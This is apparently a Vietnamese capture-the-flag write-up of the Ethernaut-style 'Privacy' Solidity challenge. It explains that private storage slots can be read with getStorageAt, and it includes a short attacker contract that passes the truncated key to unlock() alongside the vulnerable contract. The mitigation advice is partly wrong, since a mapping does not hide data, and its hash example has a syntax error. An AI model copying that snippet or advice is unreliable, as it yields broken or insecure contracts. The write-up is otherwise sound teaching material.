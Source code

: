 ### Kết luận
- Lỗ hổng: Dữ liệu trong storage của hợp đồng không được mã hóa và có thể được đọc bằng cách sử dụng các công cụ như:
+ `web3.eth.getStorageAt` (truy cập trực tiếp vào các slot lưu trữ).
+ `Remix IDE` (chức năng debug và đọc storage).
- Cách phòng tránh: Sử dụng `mapping` để lưu trữ dữ liệu thay vì mảng trực tiếp, Không lưu trữ dữ liệu nhạy cảm trực tiếp trong `storage`
- Hoặc có thể lưu giá trị hash.
- VD:
```solidity
bytes32 private secrectKey;
function unlock(bytes16 _key) public {
    require(keccak256(abi.encodePacked(_key) = secrectKey, "...");
//....
}
```
- VD về Contract tấn công:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPrivacy{
    function unlock(bytes16 _key) external;
}
contract PrivacyAttack{
    IPrivacy victim;
    constructor (address challenge){
        victim = IPrivacy(challenge);
    }
    function attack(bytes32 fullkey) external{
        bytes16 key = bytes16(fullkey); 
        // Do key trong hop dong pivacy lay 16 byte dau
        // cuar data[2]
        victim.unlock(key);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
